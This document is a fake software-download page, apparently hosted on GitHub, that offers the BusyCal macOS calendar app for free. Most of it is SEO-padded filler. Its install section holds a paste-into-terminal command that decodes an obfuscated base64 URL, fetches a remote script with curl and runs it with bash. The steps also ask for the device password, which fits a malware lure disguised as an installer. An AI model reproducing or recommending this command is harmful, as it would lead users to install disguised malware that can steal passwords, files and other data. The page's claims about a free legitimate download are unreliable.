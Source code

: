 # BusyCal — Download For Mac OS 🗓️
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple211/v4/c0/52/16/c0521670-0ea1-5dda-055d-11d886f647f2/BusyCal.png/1200x630bb.png)

BusyCal is a powerful, user-friendly calendar app for Mac OS, designed to streamline your scheduling and boost productivity. Follow the instructions below to install BusyCal for free and unlock advanced calendar management features.

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/busycal)

If you encounter issues downloading via the button above, follow the terminal command installation instructions below.

## 📦 How to Install BusyCal For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 🕒 **Advanced Event Management**: Create, edit, and manage events with ease, including recurring events and time zone support.
- 📋 **Customizable Views**: Choose from daily, weekly, monthly, or yearly views to suit your planning style.
- 🔄 **Sync Across Devices**: Seamlessly sync with iCloud, Google Calendar, and other services for real-time updates.
- 🔔 **Smart Reminders**: Set custom alerts and notifications to stay on top of your schedule.
- 🎨 **Personalized Design**: Customize colors, fonts, and layouts to make BusyCal your own.
- ⚡ **Performance Optimized**: Enjoy fast, reliable performance even with large calendars.

## About BusyCal

BusyCal is a premier calendar application for Mac OS, renowned for its robust features and intuitive interface. Designed for professionals, students, and anyone seeking an efficient scheduling solution, BusyCal offers unparalleled flexibility in managing your time. With support for multiple calendar services, including iCloud, Google Calendar, and Exchange, it ensures your events are always up-to-date across devices. Its SEO-friendly design makes it easy to find when searching for terms like *calendar app for Mac* or *BusyCal free download*.

One of BusyCal’s standout features is its customizable views, allowing users to tailor their calendar experience to their specific needs. Whether you prefer a detailed daily agenda or a broad monthly overview, BusyCal delivers a seamless experience. The app’s smart filters and tags help you organize events effortlessly, making it a top choice for those searching for *productivity tools for Mac*. Its clean, macOS-native design ensures it blends perfectly with your system, enhancing both aesthetics and functionality.

BusyCal also excels in event management, offering tools to create complex recurring events, set time zone-specific schedules, and integrate to-do lists. This makes it ideal for users looking for *Mac calendar software* with advanced capabilities. The app’s drag-and-drop interface simplifies scheduling, while its robust reminder system ensures you never miss an appointment. For those exploring *free calendar apps for Mac*, BusyCal’s free download option provides a great entry point.

Security and performance are at the core of BusyCal’s design. The app is optimized to handle large calendars without lag, making it a reliable choice for power users. Its compatibility with macOS ensures smooth integration with other native apps, enhancing your workflow. For those searching for *best calendar app for Mac*, BusyCal consistently ranks high due to its balance of power and simplicity.

### Why Choose BusyCal?

BusyCal stands out among other calendar apps due to its combination of advanced features and user-friendly design. Unlike basic calendar tools, BusyCal offers deep customization, cross-platform syncing, and powerful event management tools, making it a favorite for professionals and casual users alike. Its free download availability, combined with its robust feature set, positions it as a must-have for anyone seeking a *Mac productivity app* that delivers results.

## 🖼 Preview

![BusyCal Main Interface](https://downloads.busymac.com/resources/img/busycal-mac/videos/fav_timezone_copy_web_poster.png)  
*BusyCal’s clean and intuitive main calendar interface*

![Event Creation](https://downloads.busymac.com/resources/img/busycal-mac/videos/filter_mode_web_poster.png)  
*Creating a new event with advanced options in BusyCal*

![Customizable Views](https://downloads.busymac.com/resources/img/busycal-mac/videos/starring_tasks_web_poster.png)  
*Switching between daily, weekly, and monthly views in BusyCal*

## 🔍 Tags

busycal, busycal for mac, busycal ios, BusyCal free download, BusyCal installation guide, busycal download, busycal free, busycal download free, free busycal download, busycal mac, busycal mac os, busycal for mac
